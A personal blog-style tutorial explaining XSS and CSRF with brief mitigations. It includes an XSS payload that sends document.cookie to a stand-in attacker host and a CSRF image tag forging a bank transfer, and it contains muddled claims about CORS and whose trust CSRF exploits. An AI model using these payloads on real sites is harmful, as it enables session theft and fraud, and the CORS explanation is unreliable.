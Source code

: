 ```yaml
---
layout: post
category : 
tags : [learning, tutorial]
---
```

{% include JB/setup %}

Recently I was working on some identity managment projects. During the investigation, I reviewed some security knowledge and found myself didn't tell three basic concepts quite well. Sometimes, I felt hard to remeber the exact scenarios of them and would misuse one of them to describe the scenario which should be another one. The three terminologies are XSS (Cross-site scripting), CSRF (Cross-site request forgery), CORS (Cross-origin resource sharing).

## **XSS (Cross-site scripting)**
Two of the most common attacks against websites and web application are XSS and CSRF. 

```
In case of XSS, the victims's trust for a website is exploited, in case of CSRF, the website's trust for a victim's browser is exploited.
```

In case of XSS, attacker would make the victim to execute a piece of injected script. Since the script would be run under the website domain which is trusted by the victim, the attacker can utlize this script to collect some information, such as cookies, and then send these sensitive information to attacker's website. 

Imagine there was a website that provides a search box and it would generate a query url as following based on the content in it each time you click the search button.

```
https://example.com/search?query=<SearchContent>
```

It works well if the search content is just some normal key words. But what if the search content is a script like following? 

```
https://example.com/search?query=<script>alert(1)</script>
```

The script can be executed in the trusted website's domain. We just emit an alert in this script, a worse case could be an injected script to collect and send user cookies like following.

```
<script>
new Image().src="http://attackerurl.com/storecookie?cookie="+document.cookie;
</script>
```

To mitigate this issue, **HTTPOnly** cookie attribute can be used to prevent access to the cookie value through JavaScript.

How could the attacker inject his script to a trusted website? This [post][2] provides some practical scenarios of the XSS attack. 


## **CSRF (Cross-site request forgery)**
In case of CSRF, attacker would try to let browser send a request to an honest website on behalf of the victim. If the victim has already logged in the honest website, these kinds of requests may get some sensitive information of the victim. 

Imagine the victim has already logged in the honest website "www.bank.com", and there was a attcker's website "www.attacker.com" whose content is 

```
<img src="https://www.bank.com/action=transfer&receiver=attacker">
```

Since the victim has already logged in, this request might be send to "www.bank.com" with victim's credentials in the cookies. Then "www.bank.com" would recognize this request is sent on behalf of the victim although it is a cross-site request. [CSRF token][4] can be used to somehow mitigate the CSRF issue.

To mitigate this issue, we could use some CORS(Cross-origin resource sharing) polices which prevents the cross-site request.

## **Difference between XSS and CSRF**
As above mentioned, the method to distinguish XSS and CSRF is to figure out whose trust is exploited.    

For XSS, the attacker utilizes the user's trust on the website to collect some information, the battle field is the domain of the trusted website. The attacker's injected piece of javascript code can collect the user's information in cookies of the trusted website.   

For CSRF, the attacker utilizes the user's trust on the browser. The battle field is the domain of the attacker website. The attacker gets around of the [SOP][5] and sends requests to the trusted website domain with user's cookies. 

[1]: https://medium.com/@l4mp1/difference-between-xss-and-csrf-attacks-ff29e5abcd33
[2]: https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
[3]: https://engineering.mixmax.com/blog/modern-csrf/
[4]: https://portswigger.net/web-security/csrf/tokens
[5]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy